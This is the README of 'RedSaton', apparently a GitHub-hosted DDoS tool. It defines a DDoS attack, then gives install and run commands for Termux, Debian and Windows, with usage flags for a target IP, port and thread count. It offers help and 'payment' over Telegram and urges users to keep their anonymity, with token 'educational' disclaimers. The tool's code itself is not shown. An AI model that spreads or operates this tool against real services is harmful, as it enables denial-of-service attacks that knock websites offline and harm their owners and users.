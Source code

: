 #REDSATON DDOS TOOL

What Is A DDos-Attack
A Distributed Denial of Service (DDoS) attack is an attempt to make an online service unavailable

 by overwhelming it with traffic from multiple sources. They target a wide variety of important resources from banks to news websites, and present a major challenge to making sure people can publish and access important information

## NOTE (Please, make sure you have installed python 3 )

![dddd](https://github.com/Zilzath/RedSaton/assets/150271252/b3613235-de7d-4939-b3ce-32f00ddb6802)

## For Termux
To use the RedSaton DDos type the following commands in Termux:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`git clone https://github.com/Zilzath/RedSaton.git`

`cd RedSaton`

`$ ls`

`$ python3 redsaton.py` 

## USGAE
`python3 redsaton.py -s [ip Address] -p 80 -t 135`

`example: python3 redsaton.py -s 0.00.00.00 -p 80 -t 135`

## For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

`sudo apt install git`

`git clone 
https://github.com/Zilzath/RedSaton.git`

`cd RedSaton`

`$ ls`

`$ python3 redsaton.py` OR `python2 redsaton.py`

## For Windows

`git clone https://github.com/Zilzath/RedSaton`

`cd RedSaton`

` ls`

`python3 redsaton.py` OR `python redsaton.py`

`python3 redsaton.py -s [ip Address] -p 80 -t 135`

`example: python3 redsaton.py -s 0.00.00.00 -p 80 -t 135`

# Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.
 
## Requirments ▶

●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

# Made by @Zilzath

For any kind of help, support, payment, suggetion and request ask me on Telegram:

<a href="https://t.me/Zilzath"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>

## Follow on:
<p align="left">
<a href="https://github.com/Zilzath"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://t.me/Zilzath"><img src="https://img.shields.io/badge/Telegram-Contact%20Telegram%20Profile-blue.svg?logo=telegram"></a>
</p><p align="left"> 
 

  
